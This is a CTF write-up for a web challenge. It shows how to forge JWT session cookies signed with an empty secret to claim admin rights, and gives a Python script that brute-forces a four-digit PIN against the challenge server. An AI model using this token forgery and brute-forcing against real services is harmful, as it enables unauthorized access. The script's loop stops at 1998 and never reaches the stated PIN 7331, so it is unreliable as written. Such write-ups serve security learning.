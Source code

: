# you-can-trust-me (Web) - 180 p
**Flag : <span style="color:rgb(60, 179, 113)">CTF{2965f7e9fcc77fff2bd869db984df8371845d6781edb382cc34536904207a53d}</span>**
## Solution

From the beginning, when we access the site a message is displayed:

>{
> 
>    "message": "No cookies found"
>
>}


With inspect elements I saw the cookie. I pasted the cookie on [jwt.io](https://jwt.io/). I could see that `"user"` variable is set to `"anonymous"`.

![image](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/366b7e49-71c8-450c-8b65-14becca658da)

After I changed it to "admin" it showed a text 
>"Hello user. Since you do not have administrative privileges I guess you will have to wait here."

After this, I tried to get more information about how to get administrative privileges. I tried to add `/docs` after the ip and I found that I need to add `"is_admin"` variable to get access.

![image](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/2a6cd672-925b-46df-bcbe-fc56ba02aed5)

After a couple more tries I added `"is-admim": true` and `"flag" : true` to find that I needed a pin. To find this pin I used a Python script that tries all the numbers between 1000 and 9999. After 6 minutes I find the pin and the flag.

Replace the base_url and the token and run this script
```py 
import jwt
import requests

tokenFor1000 = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpc19hZG1pbiI6IjEiLCJmbGFnIjoiMSIsInBpbiI6MTAwMH0.p1IWmUpla2iM_4aa-iMQIGz-uB5ZyTibrXqYQV2mAFI"
payload = {
  "user": "admin",
  "is_admin": "1",
  "flag": "1",
  "pin": 1000
}

# Header
# {
#   "alg": "HS256",
#   "typ": "JWT"
# }

# I want all tokens to have the same signature and pin from 1000 to 9999
# I will brute force the pin
base_url = "http://34.89.210.219:30997/"
# I want to set a cookie and print the output

for i in range(1000, 1999):
    payload["pin"] = i
    token = jwt.encode(payload, "", algorithm='HS256')
    # Add the token to the sessionKey cookie and get the response
    cookies = {"sessionKey": token}
    r = requests.get(base_url, cookies=cookies)
    print(f"Trying pin {i} - {r.text}")

```

You will found a flag on pin `7331` which maybe it's something funny it's an inverse number of `1337` which it's a popular number in CTF :) 




